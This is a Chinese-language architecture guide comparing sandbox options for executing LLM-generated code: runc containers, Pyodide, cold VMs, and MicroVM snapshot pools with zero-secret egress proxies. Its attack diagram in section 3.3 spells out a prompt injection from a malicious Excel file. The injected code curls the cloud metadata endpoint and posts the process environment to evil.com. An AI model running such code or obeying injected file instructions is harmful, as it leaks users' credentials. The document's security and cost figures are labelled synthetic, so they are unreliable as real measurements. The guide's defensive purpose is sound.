


# 企业级 AI Agent 代码执行（Code Interpreter）与浏览器沙箱安全隔离平台横向选型指南：普通共享内核 Docker 容器（`runc` 反模式）vs. 纯 `WebAssembly (Pyodide)` vs. 云托管会话级安全沙箱（`Azure Container Apps Dynamic Sessions / E2B`）vs. 自建 `Firecracker / Kata MicroVM` 内存快照池 + 出向代理外部注入密钥架构

> **语言 / Language**: **中文 (当前)** | [English](./enterprise-agent-code-sandbox-isolation-microvm-wasm-kata-selection-faq.en.md)  
> **定位**：面向云与 AI 解决方案架构师（Solution Architect）、企业安全架构师（SecOps / CISO）与 Kubernetes 平台工程团队的“AI 代码解释器（Code Interpreter）与 Computer-Use 浏览器代理安全沙箱选型”实战指南。  
> **数据口径（Provenance）**：`synthetic + anonymized_reported`（`independently_reproduced=false`，`physical_gpu_cluster_measurement=not_measured`），全部定容模型封存于 [`experiments/enterprise_agent_code_sandbox_isolation_microvm_wasm_kata_selection/results.json`](../../experiments/enterprise_agent_code_sandbox_isolation_microvm_wasm_kata_selection/results.json)。



---

## ① 📌 核心选型结论速览（Executive Summary — 3 分钟看懂怎么选）

当企业为业务人员上线 **“AI 数据分析助手（自动写 Python 处理 Excel/CSV 画图）”、“研发编码 Agent”或“自动化网页操作浏览器 Agent（Playwright）”**（**月均 `120 万次` 沙箱会话、峰值并发 `800` 个活跃沙箱、其中 `75%` 需要运行 `pandas / scipy / openpyxl / matplotlib / chromium` 等原生 C/C++ 扩展库**）时，必须认清一个残酷的安全事实：**让大模型动态生成代码并执行，在信息安全上完全等价于“允许外部不可信用户在你的生产集群里执行任意远程代码（Arbitrary RCE）”！** 实践中三类错误架构会酿成严重生产事故：
1. **反模式一：直接在普通 Kubernetes `Docker / runc` 容器或进程内 `exec()` 运行大模型写的代码（Tier 1，宿主机内核逃逸与内网横向渗透风险高达 `18.5%`，环境变量密钥泄露率 `100.0%`）**：普通 Docker 容器与宿主机共享同一个 Linux 内核（暴露 300 多个系统调用），且默认能访问 K8s 节点元数据服务（`169.254.169.254`）与内网网段；更致命的是，如果把数据库密码或 API Key 放在沙箱环境变量里，恶意文件只需诱导大模型写一句 `print(os.environ)` 就能把全套生产密钥偷走！
2. **局限方案二：纯 `WebAssembly (Wasm / Pyodide)` 用户态沙箱（Tier 2，Python 原生 C 扩展库兼容率仅 `58.0%`）**：虽然启动快（`45ms`）、隔离好，但缺少完整 Linux 系统调用、多线程/多进程、原生 Socket 与 Headless 浏览器支持，大量企业数据分析包与自动化工具直接报错跑不起来；
3. **局限方案三：每次会话从零冷启动一台普通云虚拟机（Tier 3，冷启动耗时高达 `28,500ms = 28.5 秒`）**：虽然硬件虚拟化安全，但用户问一句“帮我画个柱状图”要先等半分钟开机！

在 **月均 120 万次沙箱会话、800 个并发沙箱** 的企业基准下，四档 Agent 沙箱隔离架构的量化对决如下：

| 方案档位 | 核心沙箱隔离架构组合 | 宿主机内核/内网逃逸风险 | Python C 扩展与浏览器兼容率 | 沙箱冷启动 P95 延迟 | 沙箱内 `os.environ` 密钥被盗暴露率 | 120 万次会话月度总成本 (`TCO`) | 架构师核心选型结论 |
|---|---|---|---|---|---|---|---|
| **🟥 Tier 1：普通共享内核 Docker 容器 (`K8s runc`)** | 直接在普通 K8s Pod 中跑 `python -c` + 环境变量存密钥 | `18.5%` ✕ *(共享宿主机内核与VPC)* | `100.0%` | `1,450 ms` | `100.0%` ✕ *(`os.environ` 一行代码全漏)* | `$162,000 / 月` ✕ *(含安全事故成本)* | ⛔ 绝对禁止用于执行大模型生成的代码 |
| **🟨 Tier 2：纯 `WebAssembly` 沙箱 (`Wasm / Pyodide`)** | 在浏览器或服务端 Wasm 线性内存中解释执行 Python | `0.2%` | `58.0%` ✕ *(不支持多进程/原生C库/浏览器)* | `45 ms` | `12.0%` | `$74,000 / 月` | ⚠️ 仅适合纯四则运算与轻量字符串脚本 |
| **🟦 Tier 3：按会话冷启动独立云虚拟机 (`Cold Cloud VM`)** | 每次会话现场创建一台新 VM + VM 内配密钥 | `0.0%` | `100.0%` | `28,500 ms` ✕ *(开机慢达28.5秒)* | `45.0%` ✕ | `$138,000 / 月` | ⛔ 启动太慢，彻底毁掉交互式 Agent 体验 |
| **🟩 Tier 4：硬件级 `MicroVM` 内存快照池 + 出向代理密钥注入** | **单会话独占硬件虚拟化 (`ACA Dynamic Sessions / E2B Firecracker / Kata`) + 内存写时复制快照 (`135ms`) + 零密钥沙箱与 L7 出向代理代填凭证** | **`0.0%` 🏆** *(独立Hypervisor与内核)* | **`100.0%` 🏆** *(完整Linux与C扩展)* | **`135 ms` 🏆** *(比冷VM快99.5%)* | **`0.0%` 🏆** *(沙箱内物理无真密钥)* | **`$34,000 / 月` 🏆** *(-79.0%)* | 🌟 **企业级代码解释器与浏览器 Agent 唯一黄金标准** |

> 💡 **架构师一句话选型铁律**：**“凡是执行大模型生成的代码或运行自动化浏览器，必须坚守两条铁律：① 绝不用共享内核的普通 Docker（`runc`），必须使用具备独立 Guest 内核与硬件虚拟化边界的 `MicroVM`（公有云首选免运维 `Azure Container Apps Dynamic Sessions` 或 `E2B`；自建 K8s 首选 `Kata Containers + Firecracker` 配合内存快照池实现 `135ms` 极速唤醒）；② 实行‘零密钥沙箱（Zero-Secret Sandbox）’——沙箱内部绝不存放任何真实数据库密码或 API Key，所有外部调用统一经过沙箱外的 L7 出向代理（Egress Proxy）校验域名白名单后代填凭证！”**

---

## ② 🎯 客户与架构师灵魂拷问 Q&A（直击 3 大容器逃逸、密钥被盗与冷启动慢痛点）

### Q1：为什么我们已经给 Kubernetes Pod 开启了非 root 用户（`runAsNonRoot`），安全团队仍然严禁在普通 `runc` 容器里跑大模型生成的 Python 代码？
- **大白话与第一性原理**：
  1. **共享内核的致命软肋**：普通 Docker 容器（`runc`）的本质只是宿主机 Linux 内核上的一个隔离进程组。一旦大模型被恶意提示词诱导生成一段针对 Linux 内核系统调用（`io_uring / netfilter / bpf`）的提权代码，或者通过内网扫描访问 K8s 节点的云元数据接口（`http://169.254.169.254`）窃取节点托管身份（Managed Identity），攻击者就能瞬间横向接管整个 Kubernetes 集群！
  2. **Tier 4 的硬件级 `MicroVM` 强隔离**：无论是微软云原生的 **`Azure Container Apps (ACA) Dynamic Sessions`**（基于 Hyper-V 硬件级强隔离沙箱），还是基于 KVM 的 **`Firecracker / Kata Containers`**，都会为**每一次用户会话分配一个拥有独立最小化 Linux 内核与虚拟网卡的轻量级微虚拟机（MicroVM）**。即便代码在里面把内核搞崩（Kernel Panic）或写死循环 Fork 炸弹，也只是一座孤岛自毁，对宿主机和其他租户的影响为 **`0.0%`**！

### Q2：既然是真虚拟机（MicroVM），怎么做到像函数计算一样在 `135 毫秒` 内瞬间启动，并且里面已经装好了 `pandas / matplotlib / playwright`？
- **预热内存写时复制快照恢复（Pre-Warmed Copy-on-Write Memory Snapshot Restore）**：
  - 传统 VM（Tier 3）之所以要 28.5 秒，是因为它每次都要走“BIOS 引导 $\rightarrow$ 启动 Linux 内核 $\rightarrow$ 启动 Python 解释器 $\rightarrow$ `import pandas, numpy` 读盘”的全流程。
  - Tier 4 提前在一台模板 MicroVM 里把 Linux 启动好、把 Python 解释器以及常用的 `pandas / scipy / matplotlib / openpyxl / playwright` 全部预先 `import` 到内存中，然后将此刻的 **CPU 寄存器状态与内存页冻结保存为一份快照（Snapshot）**。当新会话进来时，直接通过 **写时复制（Copy-on-Write, `mmap`）** 从内存快照瞬间克隆恢复——跳过整个开机和导包过程，P95 就绪延迟仅需 **`135.0 毫秒`（提速 `99.5%`）**，且 **`100%` 兼容所有 Linux C 扩展库**！

### Q3：如果沙箱里的 Python 代码确实需要调用外部 Snowflake 数据库或业务 API，怎么做到“代码能正常调通接口，但就算执行 `print(os.environ)` 也偷不走半个密钥”？
- **零密钥沙箱（Zero-Secret Sandbox）+ L7 出向代理外部凭证代填（Egress Proxy Credential Injection）**：
  1. **网络默认全封锁（Default-Deny Network）**：沙箱的虚拟网卡默认物理丢弃所有访问内网私有 IP（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）和云元数据（`169.254.169.254`）的数据包，彻底杜绝 SSRF 内网探测；
  2. **外部边界代填密钥**：沙箱内部的环境变量里只放一个毫无价值的占位符（如 `API_TOKEN="SANDBOX_DUMMY_PLACEHOLDER"`）。当沙箱内代码向白名单域名发起请求时，必须经过沙箱外部的 **L7 安全出向代理（Envoy Egress Proxy）**——由宿主机侧的代理网关校验目标域名合规后，在沙箱外部将占位符替换为真实的短效 `OBO` 令牌发给目标服务。因为真实密钥从头到尾都没进过沙箱内存，密钥被盗暴露率直接归零（**`0.0%`**）！

---

## ③ 🧭 直观可视化图解（决策树 + MicroVM 快照与出向代理架构图 + 拦截密钥窃取时序图）

### 3.1 企业级 AI Agent 代码执行与浏览器沙箱选型决策树



### 3.2 Tier 4 硬件级 `MicroVM` 内存快照池 + 零密钥 L7 出向代理端到端架构图

```mermaid
flowchart LR
    subgraph Pool["1. 预热内存写时复制快照池 (135ms)"]
        Snap["🧊 预热黄金内存快照<br/>(Linux + Python 3.12 + pandas/playwright 已加载进内存)"] -->|CoW 瞬间克隆 (135ms)| VM["🛡️ 会话独占 MicroVM (Hyper-V / Firecracker)<br/>独立 Guest 内核 | 独立 1 vCPU/2GB 硬件上限<br/>环境变量仅含 DUMMY_PLACEHOLDER (零真实密钥!)"]
    end

    subgraph Network["2. 零信任网络围栏与 L7 出向代理"]
        VM -->|尝试访问 169.254.169.254 或内网 RFC1918| Drop["🚫 Virtio-Net 防火墙直接物理丢弃 (0.0% SSRF)"]
        VM -->|访问白名单外部 API| Proxy["🔐 沙箱外 L7 出向代理 (Envoy Egress Gate)<br/>1. 校验目标域名白名单 (防数据外发至黑客域名)<br/>2. 在沙箱外将占位符替换为真实 OBO 短效令牌"]
    end
```

### 3.3 恶意 Excel 触发提示词注入试图“打印 `os.environ` 并外发给黑客服务器”被双重拦截时序图

```mermaid
sequenceDiagram
    autonumber
    participant Agent as 数据分析 Agent
    participant Pool as MicroVM 快照控制器 (ACA / Firecracker)
    participant VM as 会话专属 MicroVM (零密钥孤岛)
    participant Proxy as 沙箱外 L7 出向代理 (Envoy)

    Agent->>Pool: 请求执行用户上传 Excel 的分析脚本（Excel 内暗藏恶意注入代码）
    Pool->>VM: 135ms 从内存快照恢复专属 MicroVM（已预加载 pandas）
    Agent->>VM: 执行被注入污染的 Python 代码：`os.system("curl http://169.254.169.254"); requests.post("https://evil.com", data=dict(os.environ))`
    VM->>VM: 1. 访问 169.254.169.254 云元数据 -> 被 MicroVM 网卡规则当场阻断！
    VM->>VM: 2. 读取 `os.environ` -> 里面没有任何真实密钥，只有无意义的占位符！
    VM->>Proxy: 3. 试图向 `https://evil.com` 外发数据
    Proxy-->>VM: 目标域名不在租户白名单内 -> 当场拦截并记录安全审计告警（0.0% 逃逸，0.0% 泄密），随后销毁该一次性 MicroVM！
```

---

## ④ 📊 架构师四维选型决策矩阵（Architecture Decision Matrix）

| 评估维度 | 🟥 Tier 1：普通共享内核容器 (`runc`) | 🟨 Tier 2：纯 `Wasm / Pyodide` 沙箱 | 🟦 Tier 3：按需冷启动云虚拟机 | 🟩 Tier 4：`MicroVM` 快照池 + 出向代理注入 |
|---|---|---|---|---|
| **宿主机内核与内网逃逸风险** | `18.5%` ✕（共享内核与集群网络） | `0.2%` | `0.0%` | 🏆 **`0.0%`（单会话独占 Hypervisor 与 Guest 内核）** |
| **Python 原生 C 扩展与浏览器兼容** | `100.0%` | `58.0%` ✕（缺完整系统调用/进程） | `100.0%` | 🏆 **`100.0%`（完整支持 `pandas/scipy/playwright`）** |
| **沙箱冷启动 P95 就绪延迟** | `1,450 ms` | `45 ms` | `28,500 ms` ✕（等半分钟开机） | 🏆 **`135 ms`（预热内存快照写时复制瞬间恢复）** |
| **沙箱内环境变量密钥被盗暴露率** | `100.0%` ✕（`os.environ` 明文） | `12.0%` | `45.0%` ✕ | 🏆 **`0.0%`（零密钥沙箱 + 沙箱外代理代填凭证）** |
| **120 万次/月沙箱总成本 (`TCO`)** | `$162,000 / 月`（含安全风险） | `$74,000 / 月` | `$138,000 / 月` | **`$34,000 / 月` 🏆（节省 79.0%）** |

---

## ⑤ 🧪 定量算例、交互式容量计算器与 7-Card 4:5 视觉报告

### 5.1 基准算例复核（月均 120 万次沙箱会话 / 800 并发沙箱 / 75% 含原生 C 扩展）

- **交互式定容计算器（CSP 自包含 HTML）**：👉 [打开企业级 AI Agent 代码执行与浏览器沙箱隔离定容计算器](../reports/enterprise-agent-code-sandbox-isolation-microvm-wasm-kata-sizer.html)
- **7-Card 4:5 视觉评测卡片报告**：👉 [打开 7-Card 视觉评测报告](../reports/enterprise-agent-code-sandbox-isolation-microvm-wasm-kata-selection-cards.html)
- **可复核确定性脚本**：
  ```bash
  python experiments/enterprise_agent_code_sandbox_isolation_microvm_wasm_kata_selection/run.py --check
  python -m unittest tests/test_enterprise_agent_code_sandbox_isolation_microvm_wasm_kata_selection.py
  ```

### 5.2 核心量化对比图（Python C 扩展兼容率 % vs. 沙箱内密钥被盗暴露率 %）

```chart
{
  "data": {
    "values": [
      { "tier": "Tier 1: Shared-Kernel Docker runc", "metric": "Python C-Ext Compatibility (%)", "pct": 100.0 },
      { "tier": "Tier 1: Shared-Kernel Docker runc", "metric": "Secret Theft Exposure (%)", "pct": 100.0 },
      { "tier": "Tier 2: Pure Wasm / Pyodide", "metric": "Python C-Ext Compatibility (%)", "pct": 58.0 },
      { "tier": "Tier 2: Pure Wasm / Pyodide", "metric": "Secret Theft Exposure (%)", "pct": 12.0 },
      { "tier": "Tier 3: Cold-Booted Cloud VM", "metric": "Python C-Ext Compatibility (%)", "pct": 100.0 },
      { "tier": "Tier 3: Cold-Booted Cloud VM", "metric": "Secret Theft Exposure (%)", "pct": 45.0 },
      { "tier": "Tier 4: MicroVM Snapshot + Egress Proxy", "metric": "Python C-Ext Compatibility (%)", "pct": 100.0 },
      { "tier": "Tier 4: MicroVM Snapshot + Egress Proxy", "metric": "Secret Theft Exposure (%)", "pct": 0.0 }
    ]
  },
  "semantic_types": {
    "tier": "Category",
    "metric": "Category",
    "pct": "Percentage"
  },
  "chart_spec": {
    "chartType": "Grouped Bar Chart",
    "title": "Tier 4 delivers 100% Python C-extension compatibility with 0.0% secret exposure",
    "subtitle": "Comparison across 1,200,000 monthly enterprise Agent code execution sessions",
    "encodings": {
      "x": "tier",
      "y": "pct",
      "group": "metric",
      "color": "metric"
    }
  }
}
```

---

## ⑥ 🛠️ 架构评审与生产落地核验清单（Production Readiness Checklist）

- [ ] **严禁在普通共享内核 Kubernetes `runc` 容器或主应用进程中直接执行大模型生成的代码**：所有动态生成代码与浏览器自动化会话必须运行在具备硬件虚拟化边界的 `MicroVM` 中（如 `Azure Container Apps Dynamic Sessions`、`E2B` 或 `Kata Containers + Firecracker`）。
- [ ] **使用预热内存写时复制快照池（Pre-Warmed CoW Memory Snapshots）消除冷启动**：预先在快照内存中 `import` 高频数据科学与浏览器库，将沙箱唤醒时间控制在 `< 150ms`。
- [ ] **严格执行“零密钥沙箱（Zero-Secret Sandbox）”原则**：严禁向沙箱环境变量或挂载盘注入任何真实的 API Key、数据库密码或云账号 AK/SK；必须通过沙箱外的 L7 出向代理（Egress Proxy）进行凭证代填。
- [ ] **在沙箱虚拟网卡层默认物理阻断所有内网私有网段（RFC1918）与云实例元数据服务（`169.254.169.254`）**：仅放行经过域名白名单审批的出向流量，彻底阻断 SSRF 与数据外带攻击。
- [ ] **严格实行“一会话一微虚机（One MicroVM per Session）”并在会话结束后立即销毁还原**：防止恶意代码残留污染下一个用户的执行环境。
